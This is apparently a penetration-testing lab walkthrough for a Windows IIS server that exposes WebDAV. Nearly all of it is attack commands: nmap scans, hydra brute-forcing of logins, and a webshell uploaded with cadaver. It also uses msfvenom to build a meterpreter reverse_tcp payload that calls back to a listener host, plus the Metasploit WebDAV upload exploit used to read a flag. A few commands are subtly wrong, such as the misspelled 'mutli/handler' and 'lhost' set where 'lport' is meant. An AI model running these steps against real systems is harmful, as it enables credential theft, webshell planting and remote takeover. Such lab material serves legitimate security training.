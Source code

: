#### Lab

**Host scan**

```bash
john@attack> nmap 10.3.19.124 -A
john@attack> nmap 10.3.19.124 -p 80 -sV --script http-enum
```

**Brute-force login**

```bash
john@attack> hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.19.124 http-get /webdav/
```

**WebDAV permissions with davtest**

```bash
john@attack> davtest -auth bob:password_123321 -url http://10.3.19.124/webdav/
```

**File upload with cadaver**

```bash
john@attack> cadaver http://10.3.19.124/webdav/
        dav> put /usr/share/webshells/asp/webshell.asp
```

### Exploiting WebDAV with Metasploit

```
john@attack> nmap 10.3.21.151 --script=http-enum -p 80
```

**First method**

```bash
john@attack> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.20.2 LPORT=1234 -f asp > shell.asp
john@attack> cadaver http://10.3.21.151/webdav/ # bob:password_123321

dav:/webdav/> put shell.asp
dav:/webdav/> exit

john@attack> msfconsole

msf6> use mutli/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 10.10.20.2
msf6> set lport 1234
msf6> run

meterpreter> cat c:\\flag.txt
```

**Second method**

```bash
john@attack> msfconsole

msf6> use exploit/windows/iis/iss_webdav_upload_asp
msf6> set httppassword password_123321
msf6> set httpusername bob
msf6> set rhosts 10.3.21.151
msf6> set lhost 10.10.20.2
msf6> set lhost 1234
msf6> set path /webdav/metasploit.asp
msf6> run

meterpreter> cat c:\\flag.txt
```